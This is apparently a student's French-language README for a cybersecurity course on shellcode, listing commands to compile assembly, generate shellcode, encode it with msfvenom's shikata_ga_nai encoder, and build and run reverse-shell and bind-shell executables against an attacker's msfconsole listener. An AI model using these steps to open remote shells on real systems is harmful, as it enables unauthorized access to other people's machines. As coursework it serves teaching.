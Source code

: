 # SecuriteShellcode

Activités du cours SecuriteShellcode

BELLEIL Clément - ING3 CYBERSECURITE GROUPE A

# Compilation et Execution

Compilation :   - se placer dans le dossier asm32 ou asm64 ET ./build.sh asm01 par exemple

Execution :     - ./asm01

# Création de shellcode

Après compilation du programme :

Création de shellcode : ./create_shellcode {asm32 OU asm64} {asm01,...}

# Msfvenom - création de shellcodes (exemple pour asm32/asm01)

Compilation : nasm -f bin -o asm01.bin asm01.s                                                 
Création du payload : msfvenom -e x86/shikata_ga_nai -f c -a x86 -o asm01_x86.shellcode --platform linux < asm01.bin

# Msfvenom - création de l'executable pour reverseshell

Création de l'executable : ./revshell_x86.sh <IP_ECOUTE> <PORT_ECOUTE> (ou IP_ECOUTE et PORT_ECOUTE sont les informations renseignées en option du listener msf )

Execution : chmod +x revshell_x86.elf && ./revshell_x86.elf (une fois que l'écoute dans la msfconsole de l'attaquant est lancée)

# Msfvenom - création de l'executable pour bindshell

Création de l'exécutable : ./bindshell_x86.sh <IP_CIBLE> <PORT_ECOUTE> (ou IP_CIBLE et PORT_ECOUTE sont les informations renseignées en option du listener msf )

Execution : chmod +x bindshell_x86.elf && ./bindshell_x86.elf (une fois que l'écoute dans la msfconsole de l'attaquant est lancée)
